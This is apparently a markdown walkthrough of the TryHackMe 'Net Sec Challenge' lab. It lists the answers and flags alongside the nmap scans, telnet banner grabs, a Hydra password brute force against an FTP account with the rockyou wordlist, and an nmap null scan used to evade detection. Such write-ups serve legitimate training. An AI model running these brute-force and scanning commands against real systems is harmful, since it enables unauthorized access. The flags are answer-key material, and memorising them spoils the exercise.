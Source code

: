 # [Net Sec Challenge](https://tryhackme.com/r/room/netsecchallenge)

![NetSecChallenge](./images/NetSecChallenge.png)

[Net Sec Challenge](https://tryhackme.com/r/room/netsecchallenge) is listed as an medium room. Practice the skills you have learned in the Network Security module. An overview of what we’ll be using is listed here:

* Nmap
* Telnet
* Hydra

## Task 1 - Introduction

Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can be solved using only nmap, telnet, and hydra.

### Answer the questions below

* Launch the AttackBox and the target VM.

	![task1-ip](./images/task1-ip.png)


## Task 2 - Challenge Questions

You can answer the following questions using Nmap, Telnet, and Hydra.

### Answer the questions below

* What is the highest port number being open less than 10,000?
	
	`8080`

	```
	nmap -sV -p- -T4 -vv -oN default-nmap 10.10.54.47
	```

	![task2-nmap](./images/task2-nmap.png)

* There is an open port outside the common 1000 ports; it is above 10,000. What is it?

	`10021`

* How many TCP ports are open?

	`6`

* What is the flag hidden in the HTTP server header?

	`THM{web_server_25352}`

	```
	telnet $IP 80

	GET /index.html HTTP/1.1
	host: telnet
	```

	![task2-http](./images/task2-http.png)

* What is the flag hidden in the SSH server header?

	`THM{946219583339}`

	```
	telnet $IP 22
	```

	![task2-ssh](./images/task2-ssh.png)

* We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

	`vsftpd 3.0.3`

	![task2-nmap](./images/task2-nmap.png)

* We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?

	`THM{321452667098}`

	* Crak password `quinn`
	
		```
		hydra -l quinn -P /usr/share/wordlists/rockyou.txt $IP ftp -s 10021
		```

		![task2-quinn](./images/task2-quinn.png)

	* Use FTP command with user `quinn`
		
		```
		ftp $IP -p 10021
		
		# Login with user quin 
		
		# Get list file
		ls

		# Download the file
		get ftp_flag.txt

		# Quit FTP and read the file
		```

		![task2-ftp](./images/task2-ftp.png)

* Browsing to http://10.10.108.206:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

	`THM{f7443f99}`

	```
	sudo nmap -sN $IP
	```

	![task2-nmap-sn](./images/task2-nmap-sn.png)

## Task 3 - Summary

Congratulations. In this module, we have learned about passive reconnaissance, active reconnaissance, Nmap, protocols and services, and attacking logins with Hydra.
### Answer the questions below

* Time to continue your journey with a new module.